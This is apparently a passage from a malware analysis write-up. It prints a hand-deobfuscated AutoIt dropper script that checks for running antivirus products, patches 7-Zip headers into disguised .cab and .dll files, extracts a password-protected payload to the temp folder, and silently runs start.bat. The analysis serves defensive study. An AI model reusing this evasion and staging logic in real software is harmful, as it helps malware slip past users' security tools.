 This is an AutoIt executable (32 bit), it's basically the first layer of the dropper. With Exe2Aut I extracted the script (slightly deobfuscated by hand):

```au3
If @OSArch = "X64" Then
    If FileExists(@ScriptDir & "\Jun2010_XACT_x64.cab") AND FileExists(@ScriptDir & "\dsetup32.dll") AND FileExists(@ScriptDir & "\dxdllreg_x86.cab") AND FileExists(@ScriptDir & "\dxupdate.cab") AND FileExists(@ScriptDir & "\Jun2010_XACT_x86.cab") Then
        If _aes() = 0 Then
        Else
            For $i = 0 To UBound - 1 ; Does nothing
                If ProcessExists("avp.exe") OR ProcessExists("avpui.exe") OR ProcessExists("avguix.exe") OR ProcessExists("AVGUI.exe") OR ProcessExists("dwengine.exe") Then
                    $ainfo = _winapi_getsysteminfo()
                    $ainfo2 = $ainfo[0]
                    If $ainfo2 > 4 Then ; wProcessorArchitecture >= PROCESSOR_ARCHITECTURE_ARM (?)
                        $sinfile = @ScriptDir & "\dxupdate.cab"
                        $sfind = "00000000001C0004"
                        $sreplace = "377ABCAF271C0004"
                        $soutfile = @TempDir & "\CRDebugLog.txt"
                        _binaryreplace($sinfile, $sfind, $sreplace, $soutfile)
                        FileChangeDir(@TempDir)
                        FileInstall("CLDe2bugLog.txt", @TempDir & "\CLDe2bugLog.txt")
                        FileChangeDir(@TempDir)
                        RunWait('CLDe2bugLog.txt e -p"DQMDDMNBQ3824Nnd2nd8812@2*$(#!&NDQB2" CRDebugLog.txt', "", @SW_HIDE)
                        Run("start.bat", "", @SW_HIDE)
                    EndIf
                ElseIf ProcessExists("AvastUI.exe") OR ProcessExists("AvastSvc.exe") Then
                    $sinfile = @ScriptDir & "\Jun2010_XACT_x64.cab"
                    $sfind = "00000000001C0004"
                    $sreplace = "377ABCAF271C0004"
                    $soutfile = @TempDir & "\CRDebugLog.txt"
                    _binaryreplace($sinfile, $sfind, $sreplace, $soutfile)
                    FileChangeDir(@TempDir)
                    FileInstall("CLDe2bugLog.txt", @TempDir & "\CLDe2bugLog.txt")
                    FileChangeDir(@TempDir)
                    RunWait('CLDe2bugLog.txt e -p"DQMDDMNBQ3824Nnd2nd8812@2*$(#!&NDQB2" CRDebugLog.txt', "", @SW_HIDE)
                    Run("start.bat", "", @SW_HIDE)
                ElseIf ProcessExists("egui.exe") OR ProcessExists("ekrn.exe") Then
                    $sinfile = @ScriptDir & "\dsetup32.dll"
                    $sfind = "00000000001C0004"
                    $sreplace = "377ABCAF271C0004"
                    $soutfile = @TempDir & "\CRDebugLog.txt"
                    _binaryreplace($sinfile, $sfind, $sreplace, $soutfile)
                    FileChangeDir(@TempDir)
                    FileInstall("CLDe2bugLog.txt", @TempDir & "\CLDe2bugLog.txt")
                    FileChangeDir(@TempDir)
                    RunWait('CLDe2bugLog.txt e -p"DQMDDMNBQ3824Nnd2nd8812@2*$(#!&NDQB2" CRDebugLog.txt', "", @SW_HIDE)
                    Run("start.bat", "", @SW_HIDE)
                ElseIf ProcessExists("MBAMService.exe") Then
                    $sinfile = @ScriptDir & "\Jun2010_XACT_x86.cab"
                    $sfind = "00000000001C0004"
                    $sreplace = "377ABCAF271C0004"
                    $soutfile = @TempDir & "\CRDebugLog.txt"
                    _binaryreplace($sinfile, $sfind, $sreplace, $soutfile)
                    FileChangeDir(@TempDir)
                    FileInstall("CLDe2bugLog.txt", @TempDir & "\CLDe2bugLog.txt")
                    FileChangeDir(@TempDir)
                    RunWait('CLDe2bugLog.txt e -p"DQMDDMNBQ3824Nnd2nd8812@2*$(#!&NDQB2" CRDebugLog.txt', "", @SW_HIDE)
                    Run("start.bat", "", @SW_HIDE)
```